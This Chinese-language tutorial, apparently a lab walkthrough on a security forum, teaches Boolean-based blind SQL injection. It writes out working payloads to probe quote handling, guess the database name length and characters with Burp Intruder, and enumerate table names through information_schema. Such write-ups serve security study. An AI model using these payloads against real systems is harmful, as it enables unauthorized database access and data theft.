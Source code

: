 先用单引号判断类型，发现添加单引号后并没有报错，但是 You are in... 消失了，这里也就为我们判断创造了条件，**后面我们就需要观察 You are in... 是否出现，找不同情况**  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-9a13abd46d627159372947b50c0be764265827c6.png)

这里我们再添加一个单引号，发现 You are in... 出现，则本关为字符型注入，使用单引号包裹  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-387c7e8c89e9952558da30b900e44d72d916a659.png)

因为这里只会回显真或假，无法直接拿到数据库的名字，但是我们可以降低一点条件，可以**先判断出数据库名的长度（最长为 30），这里可以先给一个范围，观察一下回显（二分法）**

```php
//先猜测数据库名是否比5长，发现为真
1' and length(database())>5--+

//再判断数据库是否比10长，发现为假
1' and length(database())>10--+

//此时数据库大于5小于等于10，依次尝试可以发现长度为8
1' and length(database())=8--+
```

拿到长度后，我们使用`substr()`函数或`mid()`函数一位一位的猜测数据库字符，Mysql 库名一共可以使用 63 个字符，分别是：`a-z`、`A-Z`、`0-9`、`_`  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-bb6dcdf0578c4210ad7d9bd88bea437b096b52a5.png)

这里我们先来判断第一位是什么字符，这里我们使用 Burp Suite Intruder 模块快速进行，将字符标记为 Payload 设置字典为 `a-z`、`A-Z`、`0-9`、`_`，发现 s 和 S 回显长度与其他字符不同，说明这里第一位是 s ，这里大小写都有是**因为 Mysql在 Windows 下对大小写不敏感**

> MySQL 在 Windows 下不区分大小写，但在 Linux 下默认是区分大小写，由`lower_case_file_system`和`lower_case_table_names`两个参数控制

![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-dcfcc31414394e415588b6f20d9734692f03ce93.png)  
这里还可以进阶一下，使用集束炸弹模式，将字符位置设置为 Payload 1，字符内容设置为 Payload 2，实现一次爆破出所有字符  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-1e0a51a2b302ab1e481710beb60bbc1c629a56ea.png)

我们对一到八位依次判断后可以发现库名为 security，这里还可以用`ascii()`函数和`substr()`函数嵌套或使用`left()`函数实现，但都没有直接用`substr()`函数 + Intruder 模块方便，这里就不再赘述  
之后我们使用`count()`函数来判断表的个数，这里依然可以使用 Intruder 模块，判断出有四个表  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-912c44c220b7f08d1f0009b9075a2193915865fe.png)

个数清晰后再来判断每个表名的长度，这里使用了`limit`方法，语法如下

```php
limit N,M   //从第 N 条记录开始, 返回 M 条记录
```

这里依次判断表的长度：

```php
第一个表长度为6
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6 --+

第二个表长度为8
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=8 --+

第三个表长度为7
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 2,1))=7 --+

第四个表长度为5
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 3,1))=5 --+
```
